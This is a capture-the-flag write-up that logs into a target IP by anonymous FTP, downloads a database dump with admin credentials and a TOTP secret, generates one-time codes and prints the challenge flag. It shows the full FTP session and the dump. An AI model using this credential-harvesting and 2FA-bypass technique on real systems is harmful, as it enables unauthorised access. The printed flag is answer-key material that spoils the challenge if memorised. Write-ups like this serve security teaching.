 ## Task: 

Your mission, should you choose to accept it, is to infiltrate a mysterious portal secured by OTP authentication.
`159.65.146.255`

## Points: 200

## Solution:
Given an IP Address : `159.65.146.255`

used ftp anonymous to access it
```bash
ftp 159.65.146.255
Connected to 159.65.146.255.
220 (vsFTPd 3.0.5)
Name (159.65.146.255:yashsingh): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Extended Passive Mode Entered (|||30002|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0            1891 Mar 24 06:54 my_database.sql
226 Directory send OK.
ftp> ls -a
229 Extended Passive Mode Entered (|||30008|)
150 Here comes the directory listing.
dr-xr-xr-x    1 1000     1000         4096 Jul 25 10:54 .
dr-xr-xr-x    1 1000     1000         4096 Jul 25 10:54 ..
-rw-r--r--    1 0        0            1891 Mar 24 06:54 my_database.sql
226 Directory send OK.
ftp> mget .sql
ftp> get my_database.sql my.sql
local: my.sql remote: my_database.sql
229 Extended Passive Mode Entered (|||30004|)
150 Opening BINARY mode data connection for my_database.sql (1891 bytes).
100% |***************************************************************************|  1891       13.25 MiB/s    00:00 ETA
226 Transfer complete.
1891 bytes received in 00:00 (23.02 KiB/s)
ftp> exit
221 Goodbye.
```

Opened the `my.sql` program using cat command:
```sql
-- MariaDB dump 10.19  Distrib 10.4.27-MariaDB, for Linux (x86_64)
--
-- Host: localhost    Database: CTF2
-- ------------------------------------------------------
-- Server version       10.4.27-MariaDB

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8mb4 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
-- Table structure for table `users`
--

DROP TABLE IF EXISTS `users`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `users` (
  `number` varchar(100) NOT NULL, `username` varchar(100) NOT NULL, `password` varchar(100) NOT NULL, `TOTP` varchar(100) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4 COLLATE=utf8mb4_general_ci;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `users`
--

INSERT INTO `users` VALUES ('1', 'admin', 'admin', 'YDTN2JY6CWKSK6PB3HNOAY4APASUVREM');
UNLOCK TABLES;

UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;

/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;

-- Dump completed on 2023-03-24 11:51:06
```

From here we have got `Username` : `admin`  & `Password` : `admin`

FOCUS ON THE WORD TOTP (i.e. Time-based One Time Password)

```
YDTN2JY6CWKSK6PB3HNOAY4APASUVREM
```
Use a TOTP Generator to get a 6 Digit Token & set a time Period of 30 sec

Access the deployed website and get the flag with the above credentials.
```
KPMG_CTF{324b7e52953f62f1624fb64a2e8202e4}
```
